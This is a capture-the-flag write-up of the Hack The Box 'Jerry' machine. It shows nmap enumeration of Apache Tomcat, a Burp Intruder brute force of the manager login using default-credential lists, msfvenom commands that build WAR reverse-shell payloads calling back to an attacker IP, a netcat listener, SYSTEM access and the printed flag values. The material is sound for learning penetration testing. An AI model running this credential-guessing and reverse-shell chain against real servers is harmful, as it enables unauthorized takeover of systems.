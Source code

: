 # Enumeration

## Nmap scan
```
nmap -sC -sV -Pn jerry.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-13 01:15 EST
Nmap scan report for jerry.htb (10.129.210.31)
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.41 seconds
```

## Feroxbuster


## http - TCP port 8080

access to `http://jerry.htb:8080`

apache tomcat 7.0.88 shows up
![[Pasted image 20230213152928.png]]

There is a login prompt in Manager App


## Basic authentication
The login uses basic authentication.
Using burp suite, we can intercept the login part.

```
GET /manager/html HTTP/1.1

Host: jerry.htb:8080

Cache-Control: max-age=0

Authorization: Basic YWRtaW46YWRtaW4=

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close
```

Notice that
`YWRtaW46YWRtaW4=` is base64 and is decoded to `admin:admin`

### Prepare intruder payload

We use this payload and take usernames and passwords for bruteforce enumeration.
https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown

Lets prepare username lists
Username
```
admin
both
manager
role1
root
tomcat
```

Next, password lists
Password
```
password
password1
Password1
admin
tomcat
role1
manager
changethis
root
r00t
toor
s3cret
```


### Burp suite brute force
We use intruder
#### Choose custom location
![[Pasted image 20230214104127.png]]

#### Choose Payload type
![[Pasted image 20230214104747.png]]

#### Choose Payload Options
![[Pasted image 20230214104815.png]]

![[Pasted image 20230214104830.png]]

#### Add payload processing
![[Pasted image 20230214104850.png]]

#### Attack
![[Pasted image 20230214105013.png]]

`dG9tY2F0OnMzY3JldA==` is `tomcat:s3cret`


## Login
Username: tomcat
Password:s3cret

### Upload file
![[Pasted image 20230214092623.png]]

WAR file can be uploaded?


# Foothold

## Create reverse shell

### Msfvenom
msfvenom is a payload generator.

### Look for the right payload
```
msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell

```

#### Payload 1
java/jsp_shell_reverse_tcp might be suitable for us. 
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > revshell.war
```

#### Payload 2
java/meterpreter/reverse_tcp might work too.
```
sfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > revshell2.war
```

## Get shell
![[Pasted image 20230214094400.png]]
- Use Payload 1
- Upload this revshell file in Tomcat
- Setup nc `nc -lnvp 4444 `
- Click on the /revshell

```
C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```

## Get flags
```
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
```


## Sidenote (Trying Payload 2)
I was able to use the second payload, but I could not run whoami command.
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.108.101] 49196
whoami
java.lang.OutOfMemoryError: Java heap space       
```